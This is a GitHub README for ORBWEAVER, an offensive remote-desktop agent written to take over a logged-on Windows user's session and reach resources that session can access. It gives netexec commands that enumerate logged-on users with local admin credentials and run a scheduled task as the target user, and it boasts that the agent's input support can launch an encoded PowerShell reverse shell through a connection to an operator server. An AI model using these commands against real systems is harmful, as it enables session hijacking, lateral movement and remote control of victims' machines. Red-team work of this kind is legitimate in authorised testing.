

# ORBWEAVER
ORBWEAVER is my attempt at creating a resonably portable custom remote desktop application. The applicaiton is meant to be self contained and be used as a standalone binary to be run inside of user sessions. This is intended to be a proxy for RDP so that an active users session can be stolen to access otherwise unaccessable resources. The reason for choosing this approach is versatility and simplicity. Yes, you could steal the various tokens from browsers and applications - this would be more stealthy. But good luck reversing these on an app by app basis. 

The current way im running this is by using netexec schedueling a task as the target user. Below is a demo of the applicaiton in action. For more info on the development and usage see my blog post: https://medium.com/p/259e11caf663



## Main Features
- Web interface for operators to control mouse movements, clicks, and keyboard inputs
- Supports upper and lowercase letters and special chars - enough to launch an encoded PowerShell rev. shell
- Simple agent to be run as .exe

# Usage
Getting it to run via netexec/cme
```
# Enumerate loggedon users
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
# Execute command
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```
Agent usage:
```
ORBWEAVER agent v0.1 - by Mark Steenberg (0x0vid)

usage: agent.exe [ip]:[port]

example: agent.exe 127.0.0.1:5000
```


# TODO
- create install instructions
- create compile instructions
- do field testing
## Agent
- Provide commandline options for where to connect to
- Clean up code base
- Add option to use authentication token

## Server
- Add security: checking fo files that are uploaded, login, and auth requirements for interfaces and APIs


